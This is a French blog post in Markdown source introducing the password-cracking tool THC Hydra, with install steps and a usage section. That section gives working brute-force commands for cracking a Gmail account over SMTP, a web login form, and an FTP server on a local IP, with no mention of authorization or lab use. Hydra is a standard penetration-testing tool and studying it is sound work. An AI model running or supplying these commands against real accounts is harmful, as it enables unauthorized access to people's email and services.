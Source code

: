 ```yaml
---
title: Hydra, un outil de craquage de mot de passe
author: Davistar
layout: post
permalink: "/tool/cracker/hydra.html"
read_time: true
---
```


![Hydra](/techlovers/assets/image1hydra.jpeg)

## Qu'est-ce que Hydra :
THC Hydra est un outil de piratage de mots de passe capable d’exécuter des attaques de dictionnaire très rapides contre plus de cinquante protocoles. 
C'est un outil de piratage de connexion réseau rapide et stable qui utilise des attaques par dictionnaire ou par force brute pour essayer diverses combinaisons de mots de passe et de connexion sur une page de connexion.

## Quelles sont les utilisations typiques de THC Hydra? :
Hydra est utilisé en tant que pirate de connexion parallélisé prenant en charge de nombreux protocoles d’attaque. Les nouveaux modules sont faciles à ajouter. Cet outil montre à quel point il est facile d’obtenir un accès non autorisé à distance.

## Installer Hydra :

Hydra est très simple d'installation. Sous Parrot et Kali; Hydra est déjà pré-installé.

### Sur Linux

{% highlight bash %}
┌─[davistar@parrot]─[~]
└──╼ $sudo apt update && apt upgrade -y && apt install hydra -y
# sudo apt install hydra-gtk si vous voulez hydra en GUI
{% endhighlight %}

### Sur Windows
> - Télécharger THC-Hydra ici => https://github.com/maaaaz/thc-hydra-windows
> - extraire le fichier
> - Installation Fini

## Comment Utiliser Hydra : 

Pour afficher l'aide de Hydra 

{% highlight bash %}
┌─[davistar@parrot]─[~]
└──╼ $sudo hydra -h
{% endhighlight %}

### Cracker un compte smtp avec Hydra via un dictionnaire :
Explication en vidéo ici => [https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s](https://www.youtube.com/watch?v=3i2fx_kBVwA&t=0s)

Notre serveur smtp : smtp.gmail.com
Notre port smtp : 465 ou 587

{% highlight bash %}
$ sudo hydra -l target@gmail.com -P wordlist.txt -S 465 -v -V -t 1 smtp.gmail.com smtp
{% endhighlight %}

 > -l = précise le login
 > -P = précise la wordlist
 > -S = précise le port
 > -v = pour rendre l'attaque verbeuse
 > -t = le nombre de threads
 > smtp = le protocole de l'attaque

### Cracker un compte via une page login post form :

{% highlight bash %}
$ hydra <IP> https-post-form "/login/login.php:user=admin&password=^PASS^ :F=failed" -l admin -P wordlist.txt -t 1 -V
{% endhighlight %}

### Cracker un comtpe ftp via Hydra

{% highlight bash %}
$ hydra -l admin -P passlist.txt ftp://192.168.1.70
{% endhighlight %}